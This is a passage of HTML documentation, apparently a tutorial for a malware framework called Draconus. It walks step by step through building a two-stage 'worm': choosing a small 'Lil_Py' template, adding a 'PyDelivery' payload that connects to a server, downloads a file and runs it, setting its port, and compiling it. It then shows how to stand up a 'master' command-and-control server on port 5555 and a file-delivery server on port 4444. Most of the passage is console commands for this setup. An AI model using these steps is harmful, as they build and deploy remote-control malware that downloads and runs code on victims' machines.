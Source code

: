     name deliver
    </pre>
    <p>Here, we named it <code>deliver</code> (you can use any other name). During compilation, a new file will be created instead of replacing the previous worm.</p>
    <p>We then select the <code>Lil_Py</code> worm template, which is very small and has space for a Python payload:</p>
    <pre>
    add worm Lil_Py
    </pre>
    <p>Now, we add the <code>PyDelivery</code> payload, a simple script that connects to the server, downloads a file, and executes it:</p>
    <pre>
    add payload PyDelivery
    </pre>
    <p>To verify our configuration, we use:</p>
    <pre>
    worm
    </pre>
    <p>
        <img src="img/2stage2.png">
    </p>
    <p>If the port value is different from the expected <code>4444</code>, we set it using:</p>
    <pre>
    var PyD_port "4444"
    </pre>
    <p>Once everything is configured, we proceed with the build process:</p>
    <pre>
    build
    </pre>
    <p>After a short wait, the compiled small worm will be created in the <code>OUTPUT/Hive</code> directory.</p>
    <h4>Step 3 & 4: Preparing the Servers</h4>
    <p>Once our worms are ready, we need to prepare the servers. We exit the HIVE console and return to the main Draconus console by issuing:</p>
    <pre>
    exit
    </pre>
    <h5>Creating the Master Server</h5>
    <p>In the Draconus console, we create the main server that will handle communication with the primary worm:</p>
    <pre>
    server master 5555
    </pre>
    <p>This command creates a server named <code>master</code> on port <code>5555</code>, which matches the port set in our main worm. We do not specify a server type so that the default type is created, allowing full communication with the worm (enabled by the <code>Tcp_v1</code> module).</p>
    <p>After issuing this command, you should see a message indicating that the server is ready and listening for incoming connections.</p>
    <h5>Creating the File Delivery Server</h5>
    <p>Next, we create a server responsible for sending files, which will communicate with the small worm:</p>
    <pre>
    server post 4444 -t send
    </pre>
    <p>This command creates a server named <code>post</code> on port <code>4444</code> with the <code>send</code> type. This server is specifically designed for file delivery.</p>
    <p>After creating the <code>send</code> server, a directory named after the server (in this case, <code>post</code>) will automatically appear in the <code>IN</code> folder located in Draconus's main directory.</p>